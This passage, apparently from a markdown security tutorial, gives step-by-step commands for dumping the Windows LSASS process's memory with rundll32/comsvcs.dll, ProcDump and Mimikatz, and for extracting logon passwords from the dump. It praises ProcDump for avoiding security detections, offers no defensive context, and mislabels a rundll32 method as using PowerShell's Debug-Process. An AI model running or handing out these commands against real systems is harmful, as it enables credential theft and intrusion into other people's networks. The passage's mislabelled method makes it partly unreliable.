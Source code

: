 #### Method 3: Using PowerShell

PowerShell can be used to create memory dumps with the [Debug-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/debug-process) cmdlet:

```powershell
# First get the process ID
Get-Process lsass

# Then create the dump
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Where `672` is the process ID of LSASS from the first command. This technique is commonly used because it leverages built-in Windows components.

#### Method 4: Using Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a specialized tool for extracting credentials:

```cmd
# Launch mimikatz with admin privileges
mimikatz.exe

# Enable debug privileges
privilege::debug

# Dump credentials from LSASS
sekurlsa::logonpasswords
```

#### Method 5: Procdump from Sysinternals

Microsoft's [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) can create process dumps while avoiding many security detections:

```cmd
procdump.exe -ma lsass.exe lsass.dmp
```

### Extracting Credentials from LSASS Dumps

Once you have the memory dump, you need to extract the credentials.

#### Using Mimikatz

```cmd
# Launch mimikatz
mimikatz.exe

# Load the minidump module
sekurlsa::minidump lsass.dmp

# Extract credentials
sekurlsa::logonpasswords
```
